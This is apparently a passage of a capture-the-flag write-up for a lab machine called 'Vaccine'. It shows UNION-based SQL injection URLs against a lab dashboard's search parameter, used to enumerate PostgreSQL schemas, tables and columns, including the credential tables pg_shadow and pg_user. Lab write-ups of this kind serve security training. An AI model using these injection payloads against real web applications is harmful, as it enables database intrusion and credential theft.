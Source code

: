 ![image-20231122092519353](./Vaccine.assets/image-20231122092519353.png)

![image-20231122092526060](./Vaccine.assets/image-20231122092526060.png)

- 2,3,4,5 is visbile

3. enumerate databases

````
http://10.129.103.216/dashboard.php?search=XXX'; select 1,schema_name,3,4,5 from information_schema.schemata -- -
```
information_schema
public: cars [x]
pg_catalog: pg_shadow, pg_user, pg_user_mapping
pg_toast_temp_1 [x]
pg_temp_1 [x]
pg_toast [x]
```

get table name
http://10.129.103.216/dashboard.php?search=XXX'; select 1,table_name,3,4,5 from information_schema.tables where table_schema='public'  -- -

get column name

http://10.129.103.216/dashboard.php?search=XXX'; select 1,column_name,3,4,5 from information_schema.columns where table_schema='pg_catalog' and table_name='pg_user' -- -
````
